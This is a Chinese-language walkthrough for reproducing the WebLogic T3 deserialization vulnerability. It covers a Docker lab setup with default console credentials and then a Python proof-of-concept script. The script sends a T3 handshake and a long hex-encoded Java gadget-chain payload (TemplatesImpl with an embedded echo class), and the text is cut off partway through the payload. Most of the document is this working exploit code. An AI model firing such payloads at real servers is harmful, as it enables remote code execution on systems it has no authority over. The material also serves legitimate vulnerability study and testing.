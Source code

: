 
# [](#weblogic-t3-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)Weblogic T3 反序列化漏洞复现

## [](#1-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)1 环境搭建

### [](#11-%E7%8E%AF%E5%A2%83%E5%87%86%E5%A4%87)1.1 环境准备

Weblogic 环境采用 A-Team 的 docker 一键搭建：[https://github.com/QAX-A-Team/WeblogicEnvironment](https://github.com/QAX-A-Team/WeblogicEnvironment)

JDK 安装包下载地址：[https://www.oracle.com/technetwork/java/javase/archive-139210.html](https://www.oracle.com/technetwork/java/javase/archive-139210.html)

下载版本为：`jdk-7u21-linux-x64.tar.gz`

Weblogic 安装包下载地址：[https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html](https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html)

下载版本为：`fmw_12.1.3.0.0_wls.jar`

### [](#12-%E6%9E%84%E5%BB%BA%E9%95%9C%E5%83%8F)1.2 构建镜像

以 `Weblogic12.1.3` 配 `JDK 7u21` 为例，构建镜像命令如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.1.3.0.0_wls.jar  -t weblogic12013jdk7u21 .<br>``` |

镜像构建完成后，执行以下命令运行：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic12013jdk7u21 weblogic12013jdk7u21<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094631.png-water_print](assets/1699411396-52a58f3f263558738dbc45e170179f3d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094631.png-water_print")

运行后可访问`http://localhost:7001/console/login/LoginForm.jsp`登录到 Weblogic Server 管理控制台，默认用户名为`weblogic`,默认密码为`qaxateam01`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094417.png-water_print](assets/1699411396-bd3889ce9ac9b1b0b45bf3c229b052cd.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094417.png-water_print")

## [](#2-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)2 漏洞复现

poc 如下，目前该 POC 只有回显：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>``` | ```python<br>#!/usr/bin/python<br>import socket<br>import os<br>import sys<br>import struct<br>import time<br># if len(sys.argv) < 2:<br>#    print 'Usage: python %s <TARGET_HOST> <PORT>' % os.path.basename(sys.argv[0])<br>#    sys.exit()<br><br>sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)<br>sock.settimeout(5)<br><br>server_address = ("127.0.0.1", 7001)<br># print '[+] Connecting to %s port %s' % server_address<br>sock.connect(server_address)<br><br># Send headers<br>headers='t3 9.2.0.0\nAS:255\nHL:92\nMS:10000000\nPU:t3://abcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmnabcdefghijklmn:7001\n\n'<br>print 'sending "%s"' % headers<br>sock.sendall(headers)<br><br>data = sock.recv(1024)<br>print >>sys.stderr, 'received "%s"' % data<br><br>payloadObj='\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x19\x6a\x61\x76\x61\x2e\x72\x6d\x69\x2e\x4d\x61\x72\x73\x68\x61\x6c\x6c\x65\x64\x4f\x62\x6a\x65\x63\x74\x7c\xbd\x1e\x97\xed\x63\xfc\x3e\x02\x00\x03\x49\x00\x04\x68\x61\x73\x68\x5b\x00\x08\x6c\x6f\x63\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x5b\x00\x08\x6f\x62\x6a\x42\x79\x74\x65\x73\x71\x00\x7e\x00\x04\x78\x70\xea\x0c\xa3\xad\x70\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x10\xea\xac\xed\x00\x05\x73\x72\x00\x17\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x4c\x69\x6e\x6b\x65\x64\x48\x61\x73\x68\x53\x65\x74\xd8\x6c\xd7\x5a\x95\xdd\x2a\x1e\x02\x00\x00\x78\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x53\x65\x74\xba\x44\x85\x95\x96\xb8\xb7\x34\x03\x00\x00\x78\x70\x77\x0c\x00\x00\x00\x10\x3f\x40\x00\x00\x00\x00\x00\x02\x73\x72\x00\x3a\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x78\x61\x6c\x61\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x78\x73\x6c\x74\x63\x2e\x74\x72\x61\x78\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x49\x6d\x70\x6c\x09\x57\x4f\xc1\x6e\xac\xab\x33\x03\x00\x08\x49\x00\x0d\x5f\x69\x6e\x64\x65\x6e\x74\x4e\x75\x6d\x62\x65\x72\x49\x00\x0e\x5f\x74\x72\x61\x6e\x73\x6c\x65\x74\x49\x6e\x64\x65\x78\x5a\x00\x15\x5f\x75\x73\x65\x53\x65\x72\x76\x69\x63\x65\x73\x4d\x65\x63\x68\x61\x6e\x69\x73\x6d\x4c\x00\x0b\x5f\x61\x75\x78\x43\x6c\x61\x73\x73\x65\x73\x74\x00\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x72\x75\x6e\x74\x69\x6d\x65\x2f\x48\x61\x73\x68\x74\x61\x62\x6c\x65\x3b\x5b\x00\x0a\x5f\x62\x79\x74\x65\x63\x6f\x64\x65\x73\x74\x00\x03\x5b\x5b\x42\x5b\x00\x06\x5f\x63\x6c\x61\x73\x73\x74\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x4c\x00\x05\x5f\x6e\x61\x6d\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x11\x5f\x6f\x75\x74\x70\x75\x74\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x74\x00\x16\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x50\x72\x6f\x70\x65\x72\x74\x69\x65\x73\x3b\x78\x70\x00\x00\x00\x00\xff\xff\xff\xff\x00\x70\x75\x72\x00\x03\x5b\x5b\x42\x4b\xfd\x19\x15\x67\x67\xdb\x37\x02\x00\x00\x78\x70\x00\x00\x00\x01\x75\x72\x00\x02\x5b\x42\xac\xf3\x17\xf8\x06\x08\x54\xe0\x02\x00\x00\x78\x70\x00\x00\x0d\x7a\xca\xfe\xba\xbe\x00\x00\x00\x32\x00\xac\x0a\x00\x26\x00\x5a\x0a\x00\x5b\x00\x5c\x0a\x00\x5b\x00\x5d\x08\x00\x5e\x0a\x00\x5f\x00\x60\x08\x00\x61\x07\x00\x62\x0a\x00\x07\x00\x63\x07\x00\x64\x0a\x00\x65\x00\x66\x09\x00\x67\x00\x68\x0a\x00\x69\x00\x6a\x08\x00\x6b\x07\x00\x4d\x0a\x00\x09\x00\x6c\x08\x00\x6d\x0a\x00\x07\x00\x6e\x0a\x00\x6f\x00\x70\x0a\x00\x6f\x00\x71\x0a\x00\x07\x00\x72\x08\x00\x73\x07\x00\x74\x0a\x00\x16\x00\x75\x08\x00\x76\x07\x00\x3d\x08\x00\x77\x07\x00\x78\x08\x00\x79\x0a\x00\x7a\x00\x7b\x0a\x00\x1b\x00\x7c\x0a\x00\x1b\x00\x7d\x08\x00\x7e\x0a\x00\x69\x00\x7f\x0a\x00\x25\x00\x80\x07\x00\x81\x0a\x00\x23\x00\x82\x07\x00\x83\x07\x00\x84\x01\x00\x06\x3c\x69\x6e\x69\x74\x3e\x01\x00\x03\x28\x29\x56\x01\x00\x04\x43\x6f\x64\x65\x01\x00\x0f\x4c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x54\x61\x62\x6c\x65\x01\x00\x12\x4c\x6f\x63\x61\x6c\x56\x61\x72\x69\x61\x62\x6c\x65\x54\x61\x62\x6c\x65\x01\x00\x04\x74\x68\x69\x73\x01\x00\x13\x4c\x73\x75\x70\x65\x72\x6d\x61\x6e\x2f\x45\x63\x68\x6f\x54\x65\x73\x74\x3b\x01\x00\x09\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x01\x00\x72\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x64\x6f\x63\x75\x6d\x65\x6e\x74\x01\x00\x2d\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x01\x00\x08\x68\x61\x6e\x64\x6c\x65\x72\x73\x01\x00\x42\x5b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x01\x00\x0a\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x07\x00\x85\x01\x00\xa6\x28\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x44\x4f\x4d\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x29\x56\x01\x00\x08\x69\x74\x65\x72\x61\x74\x6f\x72\x01\x00\x35\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x64\x74\x6d\x2f\x44\x54\x4d\x41\x78\x69\x73\x49\x74\x65\x72\x61\x74\x6f\x72\x3b\x01\x00\x07\x68\x61\x6e\x64\x6c\x65\x72\x01\x00\x41\x4c\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x6d\x6c\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x73\x65\x72\x69\x61\x6c\x69\x7a\x65\x72\x2f\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x01\x00\x04\x65\x63\x68\x6f\x01\x00\x03\x62\x75\x66\x01\x00\x02\x5b\x42\x01\x00\x03\x6f\x75\x74\x01\x00\x16\x4c\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x3b\x01\x00\x01\x73\x01\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x01\x66\x01\x00\x19\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x3b\x01\x00\x01\x6f\x01\x00\x03\x6c\x65\x6e\x01\x00\x04\x6c\x65\x6e\x31\x01\x00\x01\x49\x01\x00\x04\x76\x61\x72\x34\x01\x00\x03\x63\x6c\x73\x01\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x03\x6e\x69\x6f\x01\x00\x02\x73\x73\x01\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x04\x76\x61\x72\x36\x01\x00\x04\x76\x61\x72\x35\x01\x00\x0d\x53\x74\x61\x63\x6b\x4d\x61\x70\x54\x61\x62\x6c\x65\x07\x00\x62\x07\x00\x64\x01\x00\x08\x3c\x63\x6c\x69\x6e\x69\x74\x3e\x01\x00\x04\x76\x61\x72\x33\x01\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x3b\x01\x00\x04\x76\x61\x72\x32\x07\x00\x81\x01\x00\x0a\x53\x6f\x75\x72\x63\x65\x46\x69\x6c\x65\x01\x00\x22\x45\x63\x68\x6f\x54\x65\x73\x74\x2e\x6a\x61\x76\x61\x20\x66\x72\x6f\x6d\x20\x49\x6e\x70\x75\x74\x46\x69\x6c\x65\x4f\x62\x6a\x65\x63\x74\x0c\x00\x27\x00\x28\x07\x00\x86\x0c\x00\x87\x00\x88\x0c\x00\x89\x00\x8a\x01\x00\x1b\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x73\x6f\x63\x6b\x65\x74\x2e\x53\x6f\x63\x6b\x65\x74\x4d\x75\x78\x65\x72\x07\x00\x8b\x0c\x00\x8c\x00\x8d\x01\x00\x08\x67\x65\x74\x4d\x75\x78\x65\x72\x01\x00\x0f\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x0c\x00\x8e\x00\x8f\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x07\x00\x90\x0c\x00\x91\x00\x92\x07\x00\x93\x0c\x00\x3e\x00\x94\x07\x00\x95\x0c\x00\x96\x00\x97\x01\x00\x0a\x67\x65\x74\x53\x6f\x63\x6b\x65\x74\x73\x0c\x00\x98\x00\x99\x01\x00\x0a\x63\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x0c\x00\x9a\x00\x9b\x07\x00\x9c\x0c\x00\x9d\x00\x9e\x0c\x00\x9f\x00\xa0\x0c\x00\xa1\x00\x99\x01\x00\x12\x72\x65\x6d\x6f\x74\x65\x48\x65\x61\x64\x65\x72\x4c\x65\x6e\x67\x74\x68\x01\x00\x11\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x49\x6e\x74\x65\x67\x65\x72\x0c\x00\xa2\x00\xa3\x01\x00\x09\x67\x65\x74\x42\x75\x66\x66\x65\x72\x01\x00\x0f\x67\x65\x74\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x14\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x4f\x75\x74\x70\x75\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x13\x76\x75\x6c\x6e\x65\x72\x61\x62\x69\x6c\x69\x74\x79\x20\x65\x78\x69\x73\x74\x07\x00\xa4\x0c\x00\xa5\x00\xa6\x0c\x00\xa7\x00\xa8\x0c\x00\xa9\x00\x28\x01\x00\x07\x6f\x6e\x20\x65\x63\x68\x6f\x0c\x00\x96\x00\xaa\x0c\x00\x3b\x00\x28\x01\x00\x13\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x0c\x00\xab\x00\x28\x01\x00\x11\x73\x75\x70\x65\x72\x6d\x61\x6e\x2f\x45\x63\x68\x6f\x54\x65\x73\x74\x01\x00\x40\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x72\x75\x6e\x74\x69\x6d\x65\x2f\x41\x62\x73\x74\x72\x61\x63\x74\x54\x72\x61\x6e\x73\x6c\x65\x74\x01\x00\x39\x63\x6f\x6d\x2f\x73\x75\x6e\x2f\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x78\x61\x6c\x61\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x78\x73\x6c\x74\x63\x2f\x54\x72\x61\x6e\x73\x6c\x65\x74\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x65\x61\x64\x01\x00\x0d\x63\x75\x72\x72\x65\x6e\x74\x54\x68\x72\x65\x61\x64\x01\x00\x14\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x65\x61\x64\x3b\x01\x00\x15\x67\x65\x74\x43\x6f\x6e\x74\x65\x78\x74\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x01\x00\x19\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x3b\x01\x00\x15\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x4c\x6f\x61\x64\x65\x72\x01\x00\x09\x6c\x6f\x61\x64\x43\x6c\x61\x73\x73\x01\x00\x25\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x09\x67\x65\x74\x4d\x65\x74\x68\x6f\x64\x01\x00\x40\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x4d\x65\x74\x68\x6f\x64\x3b\x01\x00\x18\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x4d\x65\x74\x68\x6f\x64\x01\x00\x06\x69\x6e\x76\x6f\x6b\x65\x01\x00\x39\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x79\x73\x74\x65\x6d\x01\x00\x15\x4c\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x50\x72\x69\x6e\x74\x53\x74\x72\x65\x61\x6d\x3b\x01\x00\x13\x6a\x61\x76\x61\x2f\x69\x6f\x2f\x50\x72\x69\x6e\x74\x53\x74\x72\x65\x61\x6d\x01\x00\x07\x70\x72\x69\x6e\x74\x6c\x6e\x01\x00\x15\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x56\x01\x00\x08\x67\x65\x74\x43\x6c\x61\x73\x73\x01\x00\x13\x28\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x01\x00\x10\x67\x65\x74\x44\x65\x63\x6c\x61\x72\x65\x64\x46\x69\x65\x6c\x64\x01\x00\x2d\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x3b\x01\x00\x17\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x46\x69\x65\x6c\x64\x01\x00\x0d\x73\x65\x74\x41\x63\x63\x65\x73\x73\x69\x62\x6c\x65\x01\x00\x04\x28\x5a\x29\x56\x01\x00\x03\x67\x65\x74\x01\x00\x26\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x29\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x01\x00\x0d\x67\x65\x74\x53\x75\x70\x65\x72\x63\x6c\x61\x73\x73\x01\x00\x08\x69\x6e\x74\x56\x61\x6c\x75\x65\x01\x00\x03\x28\x29\x49\x01\x00\x10\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x01\x00\x08\x67\x65\x74\x42\x79\x74\x65\x73\x01\x00\x04\x28\x29\x5b\x42\x01\x00\x05\x77\x72\x69\x74\x65\x01\x00\x05\x28\x5b\x42\x29\x56\x01\x00\x05\x66\x6c\x75\x73\x68\x01\x00\x15\x28\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x29\x56\x01\x00\x0f\x70\x72\x69\x6e\x74\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x00\x21\x00\x25\x00\x26\x00\x00\x00\x00\x00\x05\x00\x01\x00\x27\x00\x28\x00\x01\x00\x29\x00\x00\x00\x33\x00\x01\x00\x01\x00\x00\x00\x05\x2a\xb7\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x0a\x00\x02\x00\x00\x00\x22\x00\x04\x00\x23\x00\x2b\x00\x00\x00\x0c\x00\x01\x00\x00\x00\x05\x00\x2c\x00\x2d\x00\x00\x00\x01\x00\x2e\x00\x2f\x00\x02\x00\x29\x00\x00\x00\x3f\x00\x00\x00\x03\x00\x00\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x06\x00\x01\x00\x00\x00\x28\x00\x2b\x00\x00\x00\x20\x00\x03\x00\x00\x00\x01\x00\x2c\x00\x2d\x00\x00\x00\x00\x00\x01\x00\x30\x00\x31\x00\x01\x00\x00\x00\x01\x00\x32\x00\x33\x00\x02\x00\x34\x00\x00\x00\x04\x00\x01\x00\x35\x00\x01\x00\x2e\x00\x36\x00\x02\x00\x29\x00\x00\x00\x49\x00\x00\x00\x04\x00\x00\x00\x01\xb1\x00\x00\x00\x02\x00\x2a\x00\x00\x00\x06\x00\x01\x00\x00\x00\x2d\x00\x2b\x00\x00\x00\x2a\x00\x04\x00\x00\x00\x01\x00\x2c\x00\x2d\x00\x00\x00\x00\x00\x01\x00\x30\x00\x31\x00\x01\x00\x00\x00\x01\x00\x37\x00\x38\x00\x02\x00\x00\x00\x01\x00\x39\x00\x3a\x00\x03\x00\x34\x00\x00\x00\x04\x00\x01\x00\x35\x00\x09\x00\x3b\x00\x28\x00\x02\x00\x29\x00\x00\x02\x0f\x00\x03\x00\x0d\x00\x00\x00\xf6\xb8\x00\x02\xb6\x00\x03\x12\x04\xb6\x00\x05\x4b\x2a\x12\x06\x03\xbd\x00\x07\xb6\x00\x08\x01\xc0\x00\x09\x03\xbd\x00\x09\xb6\x00\x0a\x4c\xb2\x00\x0b\x2b\xb6\x00\x0c\x2a\x12\x0d\x03\xbd\x00\x07\xb6\x00\x08\x2b\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x0e\xc0\x00\x0e\x4d\xb2\x00\x0b\x2c\xb6\x00\x0c\x2c\x4e\x2c\xbe\x36\x04\x03\x36\x05\x15\x05\x15\x04\xa2\x00\x9f\x2d\x15\x05\x32\x3a\x06\x19\x06\xb6\x00\x0f\x12\x10\xb6\x00\x11\x3a\x07\x19\x07\x04\xb6\x00\x12\x19\x07\x19\x06\xb6\x00\x13\x3a\x08\x19\x08\xb6\x00\x0f\xb6\x00\x14\x12\x15\xb6\x00\x11\x3a\x09\x19\x09\x04\xb6\x00\x12\x19\x09\x19\x08\xb6\x00\x13\xc0\x00\x16\xb6\x00\x17\x36\x0a\x15\x0a\x10\x5c\xa0\x00\x4d\x19\x06\xb6\x00\x0f\x12\x18\x03\xbd\x00\x07\xb6\x00\x08\x19\x06\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x19\xc0\x00\x19\x3a\x0b\x19\x06\xb6\x00\x0f\x12\x1a\x03\xbd\x00\x07\xb6\x00\x08\x19\x06\x03\xbd\x00\x09\xb6\x00\x0a\xc0\x00\x1b\x3a\x0c\x19\x0c\x12\x1c\xb6\x00\x1d\xb6\x00\x1e\x19\x0c\xb6\x00\x1f\x84\x05\x01\xa7\xff\x60\xb1\x00\x00\x00\x03\x00\x2a\x00\x00\x00\x5a\x00\x16\x00\x00\x00\x30\x00\x0c\x00\x31\x00\x22\x00\x32\x00\x29\x00\x33\x00\x42\x00\x34\x00\x49\x00\x35\x00\x4b\x00\x36\x00\x4f\x00\x38\x00\x59\x00\x39\x00\x5f\x00\x3a\x00\x6b\x00\x3b\x00\x71\x00\x3c\x00\x7a\x00\x3d\x00\x89\x00\x3e\x00\x8f\x00\x3f\x00\x9e\x00\x40\x00\xa5\x00\x41\x00\xc4\x00\x42\x00\xe0\x00\x43\x00\xea\x00\x44\x00\xef\x00\x38\x00\xf5\x00\x47\x00\x2b\x00\x00\x00\x84\x00\x0d\x00\xc4\x00\x2b\x00\x3c\x00\x3d\x00\x0b\x00\xe0\x00\x0f\x00\x3e\x00\x3f\x00\x0c\x00\x5f\x00\x90\x00\x40\x00\x41\x00\x06\x00\x6b\x00\x84\x00\x42\x00\x43\x00\x07\x00\x7a\x00\x75\x00\x44\x00\x41\x00\x08\x00\x89\x00\x66\x00\x45\x00\x43\x00\x09\x00\x9e\x00\x51\x00\x46\x00\x47\x00\x